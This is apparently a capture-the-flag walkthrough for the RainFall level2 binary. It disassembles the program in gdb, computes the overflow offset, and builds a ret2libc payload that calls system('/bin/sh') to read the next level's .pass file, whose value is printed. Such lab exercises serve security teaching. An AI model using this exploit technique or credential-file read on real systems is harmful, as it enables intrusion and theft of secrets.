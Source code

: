 _Testing the binary_
```
level2@RainFall:~$ ./level2 
df
df
level2@RainFall:~$ ./level2 sdf
sdf
sdf
```

_Disas with gdb_
```
level2@RainFall:~$ gdb ./level2 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.


(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini


(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.


(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.

```

_we have 2 functions. main that calling p, and we see p use gets again. But this time, no shell access in the code. we can still do a buffer overflow attack but this time, overwrite the return adress and redirect the execution flow to a function in the libc library (like system)_
> ret2libc attack

_first we need to check if the ASLR is off_
> cat /proc/sys/kernel/randomize_va_space

_next we verify the start point for the buffer overflow_
```
0x080484e2 <+14>:	call   0x80483c0 <gets@plt>
```

_buffer size_
```
0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
  
  (gdb) print 0x4c
  $1 = 76
```

_buffer offset_
```
(gdb) break *0x080484f2
  Breakpoint 1 at 0x80484f2

  (gdb) run
  Starting program: /home/user/level2/level2 
  randomstring

  Breakpoint 1, 0x080484f2 in p ()

  (gdb) x $eax
  0xbffff5dc: 0xb7ec0061

  (gdb) info frame
  Stack level 0, frame at 0xbffff630:
    eip = 0x80484f2 in p; saved eip 0x804854a
    called by frame at 0xbffff640
    Arglist at 0xbffff628, args:
    Locals at 0xbffff628, Previous frame's sp is 0xbffff630
    Saved registers:
      ebp at 0xbffff628, eip at 0xbffff62c

  (gdb) print 0xbffff62c - 0xbffff5dc
  $1 = 80
```

_now we search for some libc functions adress_
```
   (gdb) print &system
   $1 = (<text variable, no debug info> *) 0xb7e6b060 <system>

   (gdb) print &exit
   $1 = (<text variable, no debug info> *) 0xb7e5ebe0 <exit>

   ret in p: 0x0804853e

   /bin/sh
   (gdb) find &system, +999999999, "/bin/sh"
  0xb7f8cc58
```

_now we can build our payload_
> 80 nop characters
> a ret instruction '\x08\x04\x85\x3e'[::-1] || 'x3e\x85\x04\x08\'
> a system instruction '\xb7\xe6\xb0\x60'[::-1]
> an exit instruction '\xb7\xe5\xeb\xe0'[::-1]
> /bin/sh instruction '\xb7\xf8\xcc\x58'[::-1]
> end with cat to tricks the process

```
(python -c "print '\x90' * 80 + '\x08\x04\x85\x3e'[::-1] + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1] + '\xb7\xf8\xcc\x58'[::-1]"; cat) | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
